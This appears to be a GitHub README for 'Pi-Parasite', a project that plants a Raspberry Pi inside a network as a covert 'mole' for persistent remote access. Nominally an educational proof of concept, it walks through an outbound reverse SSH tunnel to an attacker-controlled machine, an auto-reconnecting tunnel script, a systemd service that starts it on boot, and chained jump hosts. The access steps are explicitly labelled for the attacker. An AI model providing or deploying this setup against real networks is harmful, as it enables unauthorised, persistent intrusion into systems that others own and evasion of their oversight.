

⚠️**Warning: Proof of Concept for Educational Purposes**⚠️

This project is intended solely for educational purposes and should not be used in production environments or for any commercial applications. It represents a proof of concept, and as such, it may contain incomplete, experimental, or potentially unstable code.
 
# Pi-Parasite
### Intro:
The purpose of these is the use of a Raspberry Pi or similar device as a mole or parasite in a network and have persistent aces to it.

# Installation:
## **On the Raspberry Pi (Pi):**
#### 0. Secure the Pi:
We use a series of  opensource tools to check for variety of attacks vectors, such as viruses, rootkits and other. 
- **nmap**
- **rkhunter**
- **chkrootkit**
- **lynis**
- **tiger**
- **psad**
- **debsecan**
- **ClamAV**
you can install them by following these: [Debian server security checks tools](https://github.com/AROA-DEV/Pi-Parasite/blob/main/Connection%20Security/Debian%20server%20security%20checks%20tools.md).
we have a script that will run the tools and save their output log, [security-scan.sh](https://raw.githubusercontent.com/AROA-DEV/Automator/Beta-testing/Dedicated/Debian/Log/security-scan.sh) for the raw code, these script is runed with crontab. 
you might also want to consider settings up [ufw firewall](https://github.com/AROA-DEV/Pi-Parasite/blob/main/Connection%20Security/ufw%20firewall.md) firewall, and [fail2ban](https://github.com/AROA-DEV/Pi-Parasite/blob/main/Connection%20Security/fail2ban.md)

#### 1. **Install the SSH Client:**
   Ensure that your Raspberry Pi has the SSH client installed. If it's not installed, open a terminal and run the following commands:
   ```shell
   sudo apt update
   sudo apt install openssh-client
   ```
   This will install the necessary SSH client software.
#### 2. Manual creation of Reverse SSH Tunnel:
2. **Create the Reverse SSH Tunnel:**
   To create the reverse SSH tunnel from the Raspberry Pi to PC1, open a terminal on the Raspberry Pi and use the following command:
   ```shell
   ssh -N -R 2222:localhost:22 user@pc1-ip-address
   ```
   - Replace `user` with your PC1 username.
   - Replace `pc1-ip-address` with the actual IP address or hostname of your PC1.
   This command initiates a connection from the Raspberry Pi to PC1 and establishes a reverse tunnel that forwards port 2222 on PC1 to port 22 (SSH) on the Raspberry Pi.
   You may be prompted to enter your PC1's SSH password.
#### 3. Automatic creation of Reverse SSH Tunnel:
To create a script that automatically checks for internet access, establishes an SSH connection, and monitors and re-establishes the SSH connection if it's terminated, you can use a Bash script. Here's a basic example:

1. Create a new Bash script on your Raspberry Pi. You can do this with a text editor like Nano or Vim. For example:

```shell
nano auto_ssh_tunnel.sh
```
 
2. Add the following content to the `auto_ssh_tunnel.sh` script:[auto_ssh_tunnel.sh](https://github.com/AROA-DEV/Pi-Parasite/blob/main/Code/auto_ssh_tunnel.sh)


3. Make the script executable:
```shell
chmod +x auto_ssh_tunnel.sh
```

4. Create the ssh `config` file
```txt
# JUMP_HOST_1
Host hostname1
    HostName i[]
    User user
    IdentityFile ~/.ssh/id_rsa
    Port 22
    
# JUMP_HOST_2
Host hostname2
    HostName i[]
    User user
    IdentityFile ~/.ssh/id_rsa
    Port 22
    
# JUMP_HOST_3
Host hostname3
    HostName i[]
    User user
    IdentityFile ~/.ssh/id_rsa
    Port 22
```

5. Run the script:
```shell
./auto_ssh_tunnel.sh
```
This script will continuously check for internet access. If it has internet access, it will ensure that the SSH tunnel is running. If the tunnel is not running, it will establish it. If the SSH tunnel is manually killed from PC1, the script will try to re-establish it.

#### 4.Make it execute on power on:
1. **Create a systemd service unit file**:
   Open a terminal and create a systemd service unit file for your script. 
   ```bash
   sudo nano /etc/systemd/system/auto_ssh_tunnel.service
   ```

   Add the following content to the unit file, adjusting the needed variables:
 ```ini
   [Unit]
   Description=auto_ssh_tunnel.sh
   After=network.target

   [Service]
   User=your-username
   ExecStart=/path/to/your/auto_ssh_tunnel.sh
   Restart=always
   RestartSec=10
   WorkingDirectory=/path/to/your/script-directory

   [Install]
   WantedBy=multi-user.target
```

   - `Description`: Provide a description for your service.
   - `User`: Replace with your username.
   - `ExecStart`: Specify the full path to your script.
   - `Restart`: Ensures that the script restarts if it exits unexpectedly.
   - `RestartSec`: Time to wait before restarting the script (in seconds).
   - `WorkingDirectory`: Set the working directory for your script (where it's located).

2. **Enable and start the service**:
   Run the following commands to enable and start your service:
   ```bash
   sudo systemctl enable auto_ssh_tunnel.service
   sudo systemctl start auto_ssh_tunnel.service
   ```
   This will configure the service to start automatically on boot.

3. **Check the status**:
   You can check the status of your service to ensure it's running:
   ```bash
   sudo systemctl status auto_ssh_tunnel.service
   ```
   If everything is set up correctly, your script will run on startup.

## **On Jumps (SSH Servers):**
You can use Raspberry Pi to for these, butt is not recommended, if you use a Pi we recommend using Debian and hardening it. the installation should be on a USB since the multiple reads of all of the system boot drive will make the SSD probably fail faster a 32Gb  should be sufficient, but we recommend using a 128Gb to allow space for more tools and utilities that you might want.
The flowing steps will work on any device with Debian, we will be using the Venus Series UM560/UM580 from Minisforum
#### 1. **Ensure SSH Server is Running:**
   Make sure you have an SSH server running on each jump. If it's not already installed, you can install it by running these commands:
   ```shell
   sudo apt update
   sudo apt install openssh-server
   ```
   This installs the SSH server software.

#### 2. **Configure SSH server:**
Access the sshd configuration:
**sshd_config**: defines SSH rules for your SSH server. It is used for example to define the reachable SSH port or to deny specific users from communicating with your server.
```bash
nano /etc/ssh/sshd_config
```

**ssh_config**: defines SSH rules for clients. It means that it defines rules that are applied every time you use SSH to connect to a remote host or to transfer files between hosts
```bash
nano /etc/ssh/ssh_config
```

- Restart sshd to apply the new configuration
```bash
sudo systemctl restart sshd 
sudo systemctl status sshd
```

3. **Configure the Firewall:**
   Ensure that the firewall on PC1 allows incoming SSH connections on port 2222 (or the port you specified in the command). If you are using a Linux-based firewall like UFW, you can add a rule like this:
   ```shell
   sudo ufw allow 2222/tcp
   sudo ufw reload
   ```
   This allows incoming SSH connections on port 2222.

#### 3. Secure and review Debian for posible intrusions:
We use a series of  opensource tools to check for variety of attacks vectors, such as viruses, rootkits and other. 
- **nmap**
- **rkhunter**
- **chkrootkit**
- **lynis**
- **tiger**
- **psad**
- **debsecan**
- **ClamAV**
you can install them by following these: [Debian server security checks tools](https://github.com/AROA-DEV/Pi-Parasite/blob/main/Connection%20Security/Debian%20server%20security%20checks%20tools.md).
we have a script that will run the tools and save their output log, [security-scan.sh](https://raw.githubusercontent.com/AROA-DEV/Automator/Beta-testing/Dedicated/Debian/Log/security-scan.sh) for the raw code, these script is runed with crontab. 
you might also want to consider settings up [ufw firewall](https://github.com/AROA-DEV/Pi-Parasite/blob/main/Connection%20Security/ufw%20firewall.md) firewall, and [fail2ban](https://github.com/AROA-DEV/Pi-Parasite/blob/main/Connection%20Security/fail2ban.md)

## **On PC1 (attacker):**
**Accessing the Raspberry Pi from PC1:**
1. **Connect to the last ssh Jump:**
```bash
ssh -p 2222 jump@jump_ip
```
2. **Connect to the Raspberry Pi:**
   Now that the reverse SSH tunnel is established, you can access the Raspberry Pi from PC1. Open a terminal on PC1 and use the following command to connect to the Raspberry Pi:
   ```shell
   ssh -p 2222 pi@localhost
   ```
   - Replace `pi` with your Raspberry Pi username if it's different.
   - This command connects to the Raspberry Pi via the reverse tunnel on port 2222.

You should now have a secure SSH connection to your Raspberry Pi from your PC1 without needing to open any ports on the Raspberry Pi's network. Remember to keep both devices secure, and consider setting up SSH key-based authentication for improved security.

